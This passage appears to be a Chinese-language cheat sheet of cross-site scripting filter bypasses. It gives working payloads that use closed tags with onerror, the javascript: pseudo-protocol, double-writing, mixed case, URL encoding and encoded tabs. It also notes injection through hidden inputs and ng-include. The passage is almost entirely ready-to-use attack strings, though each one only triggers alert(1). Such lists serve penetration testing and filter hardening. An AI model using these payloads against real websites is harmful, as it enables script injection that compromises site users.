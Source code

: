尖括号闭合插入标签绕过

```
"><img/src/onerror=alert(1);>
```

`href` 伪协议绕过

```
<a href=javascript:alert(1);>1</a>
```

双写绕过

```
<a href=javascjavascriptript:alert(1);>1</a>
```

大小写绕过

```
<a href=jaVaScRipT:alert(1);>1</a>
```

URL 编码绕过

```
%27%22%3E%20%3Cimg%2Fsrc%2Fonerror%3Dalert%281%29%3E
```

添加 HTML 编码后的 Tab 绕过

```
<a href=javasc&#09;ript:alert(1);>1</a>
```

## 5. 特殊情况

### 5.1. hidden

某些注入点可能被 `hidden` 隐藏

```
<input vule="payload" type="hidden">
```

修改为 `text` 即可

```
<input vule="payload" type="text">
```

### 5.2. ng-include

`ng-include` 可引入一个 URL 

```
<body><span class="ng-include:payload"></span></body>
```

若引入的 URL 存在 XSS 则可能对在当前网站生效

